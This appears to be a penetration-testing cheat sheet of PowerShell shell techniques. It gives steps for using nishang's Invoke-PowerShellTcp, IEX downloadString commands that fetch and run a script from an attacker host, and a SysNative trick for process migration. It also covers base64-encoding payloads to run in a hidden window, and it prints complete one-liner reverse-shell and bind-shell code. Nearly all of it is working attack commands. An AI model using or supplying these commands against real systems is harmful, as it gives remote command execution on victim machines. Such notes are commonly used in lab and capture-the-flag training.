 # UPGRADE TO POWERSHELL REVERSE SHELL
git clone https://github.com/samratashok/nishang.git
# Go to Shells/Invoke-PowerShellTcp.ps1 and add a command to the end:
Invoke-PowerShellTcp -Reverse -IPAddress $ATTACKER_IP -Port 443
# Then share Invoke-PowerShellTcp.ps1 with Python server (rename file to make it easier) and execute the command below on the normal cmd shell:
C:\Users\Desktop>start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/Inv-Pow.ps1')
# EVEN BETTER, USE THE ONE WITH SYSNATIVE FROM A WEBSHELL TO MIGRATE TO THE PROPER WINDOWS PROCESS
# First, check the architecture of the victim machine:
PS > [Environment]::Is64BitOperatingSystem
PS > [Environment]::Is64BitProcess
# If the answers don't match (x64 and not 64-bits process) we have to migrate.
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20/Inv-Pow.ps1')
# The complete path to powershell.exe gets us the correct process.

# POWERSHELL ENCODE
kali> pwsh
PS > $Text = '$client = New-Object ...$REST_OF_REVSHELL_ONE_LINER'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS > $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText
Then to execute powershell -enc $BASE64
pwsh -f base64.ps1
# Base64 encoded command
powershell -nop -w hidden -e FZc9jpB2base64command...
<strong>
</strong><strong># One-liner revshell
</strong>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.0',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&#x26;1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
#One-liner bind shell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&#x26;1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"